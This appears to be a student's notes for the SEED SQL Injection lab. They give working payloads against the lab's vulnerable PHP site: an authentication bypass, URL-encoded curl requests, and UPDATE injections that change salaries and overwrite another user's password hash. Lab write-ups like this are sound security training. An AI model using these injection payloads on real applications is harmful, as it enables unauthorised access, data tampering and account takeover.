 # Useful commands

- mysql -u root -pdees

- use sqllab_users;

- show tables;

- SELECT * FROM credential;

# Task 2.1: SQL Injection Attack from webpage.

- username: admin' or '
- password: random

# Task 2.2: SQL Injection Attack from command line.

URL encoding:

- %3D is =

- %27 is '

- %20 is <whitespace>

- %26 is &

- %7C is |

Commands:

- curl 'www.seed-server.com/unsafe_home.php?username=admin%27+or+%27&Password=sdasd'

- curl 'www.seed-server.com/unsafe_home.php?username=admin%27+or+%27&Password=sdasd' > ~/Scaricati/Projects/Ethical-Hacking-22-23/SQL_Injection_Lab-20221129/log.html --libcurl ~/Scaricati/Projects/Ethical-Hacking-22-23/SQL_Injection_Lab-20221129/libcurl code.c

# Task 2.3: Append a new SQL statement.

- username: admin'; UPDATE credential SET salary=0 where name = 'admin'; --

- password: ciao

Previous SQL injection attempt doesn't work since $conn->query($sql) can only send 1 query towards the database, so it's impossible to sends multiple requests separated by semicolon.

# Task 3.1: Modify your own salary.

NickName: Alice', salary = '90000

# Task 3.2: Modify other people’ salary.

NickName: Boby', salary = '1' where nickname = 'Boby';#

# Task 3.3: Modify other people’ password.

NickName: Boby', Password='1e4e888ac66f8dd41e00c5a7ac36a32a9950d271' where nickname = 'Boby';#